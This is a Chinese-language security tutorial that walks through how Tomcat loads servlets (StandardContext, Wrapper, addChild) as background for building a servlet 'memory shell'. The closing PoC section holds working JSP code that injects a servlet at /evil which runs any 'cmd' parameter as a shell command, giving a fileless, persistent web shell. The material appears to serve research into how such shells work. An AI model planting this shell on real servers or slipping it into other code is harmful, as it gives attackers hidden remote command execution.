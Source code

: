 # 0x01 Servlet First Shoot

1. 引入依赖

```xml
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>javax.servlet-api</artifactId>
    <version>4.0.1</version>
</dependency>
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>9.0.60</version>
</dependency>
```

2. 自定义Servlet

```java
package servlets;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

public class MyServlet extends HttpServlet {
    @Override
    public void init() throws ServletException {
        System.out.println("init....");
    }
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        PrintWriter writer = resp.getWriter();
        writer.write("Hello Servlet");
    }
}
```

3. 注册Servlet（web.xml）

```xml
<servlet>
    <servlet-name>MyServlet</servlet-name>
    <servlet-class>servlets.MyServlet</servlet-class>
    <load-on-startup>1</load-on-startup>
</servlet>
<servlet-mapping>
    <servlet-name>MyServlet</servlet-name>
    <url-pattern>/test</url-pattern>
</servlet-mapping>
```

访问/test 返回页面Hello Servlet

# 0x02 Create Servlet Memory Shell

在`init`处下断点，观察调用栈

`org.apache.catalina.core.StandardContext#startInternal`

![image-20230201130317778](../.gitbook/assets/image-20230201130317778.png)

`findChildren()`把所有Wrapper传入`loadOnStartup`进行处理

`org.apache.catalina.core.StandardContext#loadOnStartup`

```java
public boolean loadOnStartup(Container children[]) {

        // Collect "load on startup" servlets that need to be initialized
        TreeMap<Integer, ArrayList<Wrapper>> map = new TreeMap<>();
        for (Container child : children) {
            Wrapper wrapper = (Wrapper) child;
            int loadOnStartup = wrapper.getLoadOnStartup();
            if (loadOnStartup < 0) {
                continue;
            }
            Integer key = Integer.valueOf(loadOnStartup);
            ArrayList<Wrapper> list = map.get(key);
            if (list == null) {
                list = new ArrayList<>();
                map.put(key, list);
            }
            list.add(wrapper);
        }

        // Load the collected "load on startup" servlets
        for (ArrayList<Wrapper> list : map.values()) {
            for (Wrapper wrapper : list) {
                try {
                    wrapper.load();
                }
          //.....
```

讲Tomcat架构的时候提到，一个 Wrapper 对应一个 Servlet。负责管理 Servlet ，包括 Servlet 的装载、初始化、执行以及资源回收。

这里的`wrapper.load()`应该就对应着Servlet的装载

每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet会被动态添加到容器。

`wrapper.load()` => `loadServlet`

![image-20230201132848862](../.gitbook/assets/image-20230201132848862.png)

可以看到这里是通过获取servletClass来装载Servlet

完成装载后，进行初始化，根据请求进行调用，最终销毁

> 装载：启动服务器时加载Servlet的实例

> 初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作由init()方法负责执行完成

> 调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法

> 销毁：停止服务器时调用destroy()方法，销毁实例

`Wrapper`是`findChildren()`遍历的来的，去看看`findChildren()`所在类有无`addChild()`之类的用于添加`Wrapper`的方法

`org.apache.catalina.core.ContainerBase#addChild`

```java
public void addChild(Container child) {
    if (Globals.IS_SECURITY_ENABLED) {
        PrivilegedAction<Void> dp =
            new PrivilegedAddChild(child);
        AccessController.doPrivileged(dp);
    } else {
        addChildInternal(child);
    }
}
```

![image-20230201133218963](../.gitbook/assets/image-20230201133218963.png)

实际上`StandardContext`重写了父类`ContainerBase`的`addChild`方法

![image-20230201133404583](../.gitbook/assets/image-20230201133404583.png)

先调用父类的`addChild`，接着进行访问jsp的处理

# 0x03 POC

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/evil", name);
%>
```

